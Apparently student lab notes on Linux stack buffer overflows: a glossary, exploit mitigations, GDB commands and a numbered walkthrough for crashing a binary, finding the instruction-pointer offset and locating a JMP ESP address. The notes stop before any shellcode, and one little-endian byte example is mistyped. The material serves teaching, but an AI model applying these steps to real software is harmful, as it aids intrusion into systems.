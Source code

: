 **Buffer Overflow Common Terms**
    HEAP - Memory that can be allocated and deallocated
    STACK - A contiguous section of memory used for passing arguments
    REGISTERS - Storage elements as close as possible to the central processing unit (CPU)
    INSTRUCTION POINTER (IP) - a.k.a Program Counter (PC), contains the address of next instruction to be executed
    STACK POINTER (SP) - Contains the address of the next available space on the stack
    BASE POINTER (BP) - The base of the stack
    FUNCTION - Code that is separate from the main program that is often used to replace code the repeats in order to make the program smaller and more efficient
    SHELLCODE - The code that is executed once an exploit successfully takes advantage of a vulnerability

   **Buffer Overflow Defenses**
        Non executable (NX) stack
        Address Space Layout Randomization (ASLR)
        Data Execution Prevention (DEP)
        Stack Canaries
        Position Independent Executable (PIE)

**GDB Uses**
    disass <FUNCTION>   #   Disassemble portion of the program
    info <...>  #   Supply info for specific stack areas
    x/256c $<REGISTER>  #   Read characters from specific register
    break <address>  #   Establish a break point
Web Exploitation Demo
1. ensure its saved in /home/student
2. chmod u+x it
3. run file on it, run strings on it
4. ./func (or whatever its name is) to run it
5. ./func $(echo "sdflkjsdflkjsdfflksjdflksjdf") see if it takes arguments
6. ./func <<<$(echo "sdflkjsdflkjsdfflksjdflksjdf") Takes the output of the echo command and redirects it as input into the executable.
7. enter a lot more characters to see if we get something
8. create python script (lin_buf.py)
    #!/usr/bin/env python
    buffer = "A" * 40 
    print(buffer)
    
9. ./func <<<$(./lin_buf.py)
10. increase chars in script until segmentation fault
11. then run 'gdb ./func'
12. run - allows you to run it the exe in gdb. info functions - shows you functions in the program. disass main - to see main function. pdisass main (to see it more better)
13. in gdb -> run <<<$(./lin_buf.py)
https://wiremask.eu/tools/buffer-overflow-pattern-generator/
14. copy the value in wiremask, do run<<<$(echo "value")
15. copy the value in the instruction pointer.
16. go back to wiremask, paste that offset in the register value. (this should tell you the amount of characters you need to send in the script)
17. note the offset value, go back into script and change your buffer to that number.
18. create eip in your script -> eip = "B" * 4 -> print(buffer+eip)
19 in gdp -> run <<<$(./lin_buf.py)
20. quit out of GDB. reenter gdb with 'env - gdb ./func' -> then show env -> need to get rid of these environmental variables. run 'unset env COLUMNS / LINES'
21. run the executable again to get it to crash in order to figure out locations of ESP / or run normally and interupt with ctrl c
22. enter a bunch of stuff 
23. then run 'info proc map' shows processes memory mapping. location of heap/stack/text of executable
24. the start is the startaddr right below the heap. the end is the end addr of the stack.
25. then in gdb run 'find /b 0xf7de1000 0xffffe000, 0xff, 0xe4'
0xff = hex for jump, 0xe4 is hex for esp
26. copy and paste a couple of those into the python script.
27. put em in little endian ex: 0xf7de3b59 -> "\x59\x3b\xde\f7" -> save that